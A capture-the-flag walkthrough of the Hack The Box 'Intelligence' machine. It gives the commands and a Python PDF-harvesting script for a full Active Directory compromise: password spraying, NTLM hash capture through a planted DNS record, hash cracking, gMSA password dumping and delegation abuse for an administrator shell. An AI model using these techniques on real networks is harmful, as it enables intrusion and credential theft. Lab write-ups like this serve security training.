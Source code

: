 # [Intelligence](https://app.hackthebox.com/machines/intelligence)


```bash
nmap -p- --min-rate 10000 10.10.10.248 -Pn
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.10.248
```

![Alt text](img/image-1.png)

After visiting web application, I see PDF files on '/documents' folder.


![Alt text](img/image-2.png)

I also write this ip address into **'/etc/hosts'** file.


Let's start to enumeration to find another `.pdf` files can store sensitive informations.


I wrote Python script for this as below, also PDF information which we can know creator name , I wrote their names into `users` file to guess that they are domain users or not.

```python
#!/usr/bin/env python3

import datetime
import io
import PyPDF2
import requests


t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
keywords = ['user', 'password', 'account', 'intelligence', 'htb', 'login', 'service', 'new']
users = set()

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        with io.BytesIO(resp.content) as data:
            pdf = PyPDF2.PdfFileReader(data)
            users.add(pdf.getDocumentInfo()['/Creator'])
            for page in range(pdf.getNumPages()):
                text = pdf.getPage(page).extractText()
                if any([k in text.lower() for k in keywords]):
                    print(f'==={url}===\n{text}')
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break

with open('users', 'w') as f:
    f.write('\n'.join(users)) 
```



I found a [pdf](http://intelligence.htb/documents/2020-06-04-upload.pdf) which is about New Account Guide (default password)

![Alt text](img/image-3.png)


Script result is here.

![Alt text](img/image-4.png)


Let's analyze this users that Domain users are or not via `kerbrute` tool.

```bash
kerbrute -users users -domain intelligence.htb -dc-ip 10.10.10.248 
```

![Alt text](img/image-5.png)


From PDF, we know that default password is '**NewIntelligenceCorpUser9876**'.

Let's do `Password Spray` attack that one password is for all users.

```bash
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876 --continue-on-success
```

![Alt text](img/image-6.png)


Let's access SMB for Tiffany.Molina:NewIntelligenceCorpUser9876  user.

First, let's know what shares this user have access via `smbmap` tool.

```bash
smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876
```


![Alt text](img/image-7.png)


Let's access `Users` share via this account which we have '**Read**' permission.

```bash
smbclient -U '10.10.10.248\Tiffany.Molina' //10.10.10.248/Users
```


I found `user.txt` on Desktop folder on SMB share.

![Alt text](img/image-8.png)


user.txt

![Alt text](img/image-9.png)


While looking at shares, I found cronjob `powershell` script which run for every 5 minutes.

```bash
smbclient -U '10.10.10.248\Tiffany.Molina' //10.10.10.248/IT
```


![Alt text](img/image-10.png)


Script's purpose:
The script goes into LDAP and gets a list of all the computers, and then loops over the ones where the name starts with “web”. It will try to issue a web request to that server (with the running users’s credentials), and if the status code isn’t 200, it will email Ted.Graves and let them know that the host is down. The comment at the top says it is scheduled to run every five minutes.


Let's use this [script](https://github.com/dirkjanm/krbrelayx)
```bash
python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-dr4ks --data 10.10.16.6 --type A 10.10.10.248
```

![Alt text](img/image-11.png)


Yes, I grabbed hash of user.

![Alt text](img/image-12.png)


Let's crack hash of this user via `hashcat` command.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-13.png)


Ted.Graves:Mr.Teddy

Let's check this username and password via `crackmapexec` command.

```bash
crackmapexec smb 10.10.10.248 -u Ted.Graves -p Mr.Teddy -d intelligence.htb
```

![Alt text](img/image-14.png)


Let's use this credentials for bloodhound.

```bash
bloodhound-python -d intelligence.htb -u Ted.Graves -p Mr.Teddy -c all -ns 10.10.10.248
```

![Alt text](img/image-15.png)


Let's add this data into `bloodhound` console.



From below image, I see that my user (Ted.Graves) is in group called 'ITSUPPORT@INTELLIGENCE.HTB', and this group's users can read GMSAPASSWORD easily.

![Alt text](img/image-16.png)


I found a [script](https://github.com/micahvandeusen/gMSADumper) to dump password hash of service user.

![Alt text](img/image-17.png)


One interesting point for this service user 'svc_int' has permission over Domain Controller, permission called 'AllowedToDelegate'.

![Alt text](img/image-18.png)


Let's abuse this privilege via `getST.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :e0dcda8d93bf71a6352ea7803c8f17f1 -impersonate administrator intelligence.htb/svc_int
```

![Alt text](img/image-19.png)

Reminder! We need to set up time for our target.
```bash
sudo service virtualbox-guest-utils stop
sudo ntpdate 10.10.10.248 
```

As we create our forged ticket, let's login via `wmiexec.py` script of `Impacket` module.

First, we need to add ticket into our `klist` session.
```bash
KRB5CCNAME=administrator.ccache klist
```

```bash
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```


![Alt text](img/image-20.png)


root.txt

![Alt text](img/image-21.png)